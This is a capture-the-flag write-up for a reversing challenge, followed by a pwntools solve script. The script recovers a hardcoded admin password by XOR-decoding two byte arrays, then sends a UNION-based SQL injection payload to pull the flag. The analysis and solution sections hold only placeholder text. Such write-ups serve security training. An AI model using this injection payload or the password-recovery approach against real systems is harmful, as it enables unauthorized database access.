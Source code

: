 # 1337 Up | Phish Marker Order Management - REV (100)

This involved reversing the binary to view the hardcoded password. After gaining admin access, the queries were vulnerable to SQLI. Exploiting the SQLI vulnerability allowed access to the flag.

## Initial Analysis
How to get the building blocks of ideas for exploitation

## Solution
How to exploit after initial analysis

## Solve Script
``` python
from pwn import *

BINARY = ''
HOST = ''
GDB_SCRIPT = ''

def xor_decrypt(cipher, key):
    plain = []
    for i, char in enumerate(cipher):
        plain_char = char ^ key[i % len(key)]
        plain.append(chr(plain_char))
    
    return ''.join(plain)

def main():
    proc = get_process() # set is_remote = False for local testing

    data1 = [ 0x49, 0x4e, 0x54, 0x49, 0x47, 0x52, 0x49, 0x54, 0x49, 0x31, 0x33, 0x33, 0x37, 0x75, 0x70, 0x23 ]
    data2 = [ 0x07, 0x7d, 0x22, 0x7a, 0x15, 0x15, 0x79, 0x3a, 0x27, 0x71, 0x05, 0x46, 0x04, 0x51, 0x54, 0x02 ]

    password = xor_decrypt(data1, data2)
    sqli = b'1\' UNION SELECT flag, 1 from admin;#'
    
    # Login to admin console
    proc.sendlineafter(b'Please enter the admin password:', password)

    # Exploit SQLI to get flag
    proc.sendlineafter(b'Exit', b'1')
    proc.sendlineafter(b'Enter product name:', sqli)

    # Print flag
    proc.recvuntil(b'Name: ')
    flag = proc.recvline().strip().decode()
    print(f'Flag: {flag}')


# Allows compatibility if custom library isn't present
try:
    from ctfkit.bp import *
    tpwn.GDB_SCRIPT = GDB_SCRIPT
except ImportError:
    def get_process(is_remote=True):
        host, port = HOST.split(':')
        return remote(host, int(port)) if is_remote else process()

if __name__ == '__main__':
    try:
        context.binary = BINARY
    except FileNotFoundError:
        print('Not able to load binary, local testing disabled')
    context.log_level = 'error'
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

    parse_args()
    main()
```